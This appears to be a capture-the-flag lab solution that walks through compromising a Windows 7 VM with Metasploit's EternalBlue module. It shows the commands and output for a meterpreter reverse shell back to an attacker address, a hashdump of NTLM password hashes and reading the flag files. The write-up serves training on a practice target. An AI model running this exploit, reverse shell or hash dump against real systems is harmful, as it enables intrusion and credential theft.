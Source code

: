 **Solution**

If you are having difficulties with compromising the machine, here's a step-by-step guide to compromise the VM with Metasploit. If you would like to use Armitage, use this [guide that shows step-by-step](https://drive.google.com/file/d/1u-YmWl7cx3tO2vVjon0EtOGLXVCak2SJ/view?usp=sharing) instructions. Now onto Metasploit!

Our first step is to launch Metasploit:

LaunchingMetasploitand using Eternal Blue!

```shell-session
root@attackbox$ msfconsole -q
msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0
LHOST => eth0
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST VICTIM_IP
RHOST => VICTIM_IP
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] VICTIM_IP:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] VICTIM_IP:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] VICTIM_IP:445      - Scanned 1 of 1 hosts (100% complete)
[*] VICTIM_IP:445 - Connecting to target for exploitation.
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now that we have exploited the Virtual Machine and have achieved System level access, we can use the hashdump command to retrieve the users NTLM hashes:

Running Hashdump

```shell-session
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d<snip!>4d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae93<snip!>d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867<snip!>5c1309a5c:::
meterpreter > 
```

All that is left is to now retrieve the flags in the user's Home folders:

Collecting our flags!

```shell-session

meterpreter > cat C:/Users/Administrator/Desktop/root.txt
THM{bd6ea6c87<snip!>21081132744}
meterpreter > cat C:/Users/Ted/Desktop/user.txt
THM{217fa45e3<snip!>fc0be28e760} 
```
